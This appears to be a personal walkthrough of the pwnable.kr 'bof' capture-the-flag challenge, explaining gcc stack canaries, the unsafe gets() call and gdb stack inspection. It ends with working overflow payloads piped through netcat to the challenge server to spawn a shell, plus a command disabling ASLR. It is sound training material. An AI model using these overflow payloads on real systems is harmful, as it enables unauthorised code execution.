

{Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?
Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c
Running at : nc pwnable.kr 9000}
*** this is not just a solution but also a walkthrough of my way of solving including the errors and difficulties i faced
downloading the files to work localy, we get an ELF 32bit and a C script

trying to overflow bof we get process termination.due to GCC StackGuard

Termination occurs due to GCC StackGuard, the mechanism uses small value variables called "canaries" (after the canary birds taken into mines), these values are located on the stack after the end of the buffer and before the return address. when a buffer is overflowed, the cannries will be overwriten and their value will change, thus availing overflow detection.
(see also redhat, mcueclipce and gcc).
in order to "play" locally with a non protected file it is possible to compile without protection:
gcc -m32 -fno-stack-protector bof.c -o bofNoProtection
though this is for learning purpose, and it is not nescessary for the solution (we are not trying to change the IP).
-g flag can be added for a verbose debugging mode (it changes the stack!).
k, so lets look at the code:

in main we got a call to func() taking 0xdeadbeef as the key parameter.
in func():- we declare a 32 bytes buffer (line 5)
- we take user input via gets() and put into the buffer
- an if statement compares the key to 0xcafebabe
- if true, executes command to spawn a shell
*** gets() is unsafe and exploitable as it does not checks for the size of the user input and will overwrite memory if input is bigger than buffer size supplied (see also Cprogramming).
*** gets() is terminated by newline (\n or \x0a), it will read untill (but will not include) the newline char
*** if a shell is spawned before cannaries are checked, program termination will be suspended
two main approaces:- Overwrite the IP - overwritten IP address can be redirected to address of the true part of the IF statement. to do so ASLR must be dissabled, this method is hard to implement as ASLR is active on the other side
- Overwrite the key parameter - overflow the buffer until the key parameter is overwritten to 0xcafebabe - easier to implement, no need to find exact address, as we know that the key parameter is located before the buffer on the stack, so we can overflow untill we get to it.
*** disabling ASLR, "0" to disable, "1" to enable, this is temporary and will reset after terminal restart
echo "0" > /proc/sys/kernel/randomize_va_space
lets use gdb to further examine, setting breakpoint at main and running

disassembling func we can see the compare (cmpl), we'll set another breakpoint there to examine what happens after the user input is put to gets()

*** notice address 0x56555683, the gcc canary check.
after setting breakpoints, lets supply a 32 character long string and look at the memory around the SP.
(python3 -c 'print("A"*32)' ===> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)

we see our 0xdeadbeef located lower on the stack (higher address), it is 20 bytes (4*5) away from the end of our buffer, giving total of 52 bytes to 0xdeadbeef.
also highlighted are the return to main address and the canary, both are not of out interest if we manage to change key (see also GDB x command)
now that we know where 0xdeadbeef is located, we may try to overwrite it:
piping input inside gdb can be done (see also here strings)
(gdb) r <<<$(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*52 + b"\xbe\xba\xfe\xca\x0a")')
the use of python sys module is necessary in order to write a byte string
looking around the SP again

stepping in to see whats happening

whats happening here is, we spawn a shell, but gdb can only follow 1 process at a time (Detaching...), so it leaves the shell aside and continues to run bof, which has its canary overwritten, so after checking we get a SIGABRT and the whole thing is aborted.
now messing around a bit outside the gdb

process is terminated even though we know a shell has been spawned (notice we dont get a "Nah ..", meaning we're on the right path).
*** for readability i've put the script into a payload file
notice that print is executed localy and the output is sent to be executed in the spawned shell.

in that manner, we can print the commands we want to execute:

now we may try it on netcat:

and see that its not working... we dont get back the output of the terminal.
finally, to solve this problem, we will use "cat" command as the second command executed to create a continuous I/O stream between our machine and the server.

(further reading about pipe and cat - one, two)
a different synthex that may work is:

a ctf can also be achieved with pwntools:

there's not much to say about the script, its mostly understandable.
p32() function takes a hex address and outputs it in little endian format
after executing the script we get a shell.

readelf -a
- more assembly / understanding where deadbeef goes
- python libraries - socket, parser
- pwntools
string for the payload (52 A + cafebabe + newline)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xBE\xBA\xFE\xCA\x0A
r <<< $(python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xBE\xBA\xFE\xCA\x0A')")
solutions:- python3 -c 'import sys; sys.stdout.buffer.write(b"A"*52 + b"\xbe\xba\xfe\xca\x0a")' > payload
- (cat payload && cat) | nc pwnable.kr 9000
- (python3 -c 'import sys; sys.stdout.buffer.write(b"A"*52 + b"\xbe\xba\xfe\xca\x0a")'; cat) | nc pwnable.kr 9000